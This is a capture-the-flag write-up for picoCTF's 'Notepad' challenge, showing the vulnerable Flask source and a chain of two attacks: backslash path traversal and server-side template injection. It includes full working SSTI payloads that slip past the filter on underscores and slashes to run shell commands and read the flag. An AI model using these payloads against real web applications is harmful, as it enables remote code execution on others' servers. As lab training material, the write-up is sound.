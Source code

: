 # CTF Competition: picoCTF

### CTF Name: Notepad
**CTF Weight:** 25o points

**Link:** [https://play.picoctf.org/practice/challenge/140?page=1&search=des](https://play.picoctf.org/practice/challenge/204?category=1&page=4&search=)

This challenge provides a simple website written in Flask where we can write and store our notes. The source code to the application was provided. This CTF tested LFI and SSTI.


**app.py**
```
from werkzeug.urls import url_fix
from secrets import token_urlsafe
from flask import Flask, request, render_template, redirect, url_for

app = Flask(__name__)

@app.route("/")
def index():
    return render_template("index.html", error=request.args.get("error"))

@app.route("/new", methods=["POST"])
def create():
    content = request.form.get("content", "")
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```

**index.html**
```
<!doctype html>
{% if error is not none %}
  <h3>
    error: {{ error }}
  </h3>
  {% include "errors/" + error + ".html" ignore missing %}
{% endif %}
<h2>make a new note</h2>
<form action="/new" method="POST">
  <textarea name="content"></textarea>
  <input type="submit">
</form>
```

The key to many of these CTFs is tracking the user input and seeing where the input goes and if those places can be exploited. In this case, the user input is stored in the variable called content.
Immediately after taking in the input, an error is raised if "_" or "/" are in the input.
Next, it checks if the input length is > 512. If it is then an error is raised.
If both these checks are cleared then we can write the note into the `static` folder.

## Writeup:

I noticed that in the index.html, the `{% include "errors/" + error + ".html" ignore missing %}` variable was getting the text from a variable in the `errors` directory. Thus, if we can try to somehow get LFI and write to the `errors` directory, I could then perform a server side template injection attack.

Going back to app.py, I noticed that the name to be written to was using a function called url_fix from the werkzeug.urls library to create the file name. After looking at the source code for url_fix, I saw that it replaces `\` with `/`!!!
This is huge! we can now get around the `/` character being blacklisted by using `\` 

![image](https://github.com/Mitchellzhou1/CyberPortfolio/assets/95938232/e2eedda6-2b4e-49b6-abb2-74974d45f238)


So, to test my LFI theory I used the following payload to see if it could be written to the errors directory: `..\templates\errors\pleasework`. Sure enough, I saw the URL change to `https://notepad.mars.picoctf.net/templates/errors/pleasework-zWPCSoNIdyc.html` GREAT! this means that it was successful, to verify we can see that is in my file by going to `https://notepad.mars.picoctf.net/?error=pleasework-zWPCSoNIdyc`
This makes the erorr file it reads from the file I just created.
![image](https://github.com/Mitchellzhou1/CyberPortfolio/assets/95938232/1d90ffa7-d285-43be-859d-f1b447b997ab)


Now our last step is just to perform SSTI. Hacktricks provides great exploit code for SSTI and I found one that didn't have any `/` or `_` as these were blacklisted characters in the app.py
![image](https://github.com/Mitchellzhou1/CyberPortfolio/assets/95938232/527c08e5-bae9-425a-af9e-579b7cc23252)

I didn't want to the payload to be in the name of the error file so I 'filled' it up by adding a bunch of `..\`'s then the SSTI payload. So the payload looked like this:
`..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\app\templates\errors\zz{%with a=request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls${IFS}-l')|attr('read')()%}{%print(a)%}{%endwith%}`
To see the results I went to `https://notepad.mars.picoctf.net/?error=zz-uVCtHElqvbA` were I saw the flag file: `flag-c8f5526c-4122-4578-96de-d7dd27193798.txt`

![image](https://github.com/Mitchellzhou1/CyberPortfolio/assets/95938232/fd2577e0-1fc7-4304-a478-479c2ba69ef0)


To read from it, the payload now becomes: `..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\app\templates\errors\zz{%with a=request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat${IFS}flag-c8f5526c-4122-4578-96de-d7dd27193798.txt')|attr('read')()%}{%print(a)%}{%endwith%}`

![image](https://github.com/Mitchellzhou1/CyberPortfolio/assets/95938232/2ecbfec2-60b7-4f4d-9799-de6ccd3a6deb)

The flag is: `picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}`



